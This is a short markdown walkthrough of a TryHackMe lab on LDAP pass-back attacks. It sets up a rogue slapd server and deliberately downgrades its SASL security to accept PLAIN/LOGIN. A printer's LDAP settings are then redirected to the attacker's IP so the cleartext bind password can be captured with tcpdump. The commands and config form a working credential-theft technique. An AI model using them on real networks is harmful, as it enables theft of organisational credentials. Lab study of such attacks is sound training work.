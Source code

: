 # Perform LDAP Pass Back with Rogue LDAP Server


```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

Configuration of the LDAP Server: 
```
sudo dpkg-reconfigure -p low slapd
```

![image](https://user-images.githubusercontent.com/97956863/231549315-b8217585-523e-4f32-b296-81616c29b3c5.png)

Provide the targeted domain 
![image](https://user-images.githubusercontent.com/97956863/231549375-bbf2317d-71d1-494c-b8a2-de0477d33ec6.png)

![image](https://user-images.githubusercontent.com/97956863/231549473-76f36c6d-6dc9-4f86-a236-22feaf534217.png)

![image](https://user-images.githubusercontent.com/97956863/231549889-8d492cde-5c27-4f43-9bd7-2d216828a54c.png)

![image](https://user-images.githubusercontent.com/97956863/231549924-f5df1ecf-1b5e-4a3f-a5cc-cf7205111b4b.png)

![image](https://user-images.githubusercontent.com/97956863/231549949-6453268e-757d-4355-afa2-6784a1d655c2.png)

# Making it vulnerable by downgrading it to support PLAIN & LOGIN !

```
nano olcSaslSecProps.ldif 
```

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

<ul> 
  <li>olcSaslSecProps: Specifies the SASL security properties <br>
  <li>noanonymous: Disables mechanisms that support anonymous login <br>
  <li>minssf: Specifies the minimum acceptable security strength with 0, meaning no protection. <br>
</ul>



# Patch LDAP Server

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
Check new config :
```
┌──(root㉿kali)-[~]
└─# ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN

```


# Capturing LDAP Creds (TryHackMe example with printer.za.tryhackme.com)

Changing server to the tun0 ip address : 10.50.26.19 
Then click save

![image](https://user-images.githubusercontent.com/97956863/231569418-d86a2329-a712-4f07-96b9-add6f33a74a6.png)

Before clicking Test on kali :

```
sudo tcpdump -SX -i breachad tcp port 389

```

Click Test !!

![image](https://user-images.githubusercontent.com/97956863/231570152-26fc6cd4-773d-4e18-b4b7-42516d716de7.png)


As we can see the password at the bottom of the screen : tryhackmeldappass1@

<br>
<br>

Credit : TryHackMe
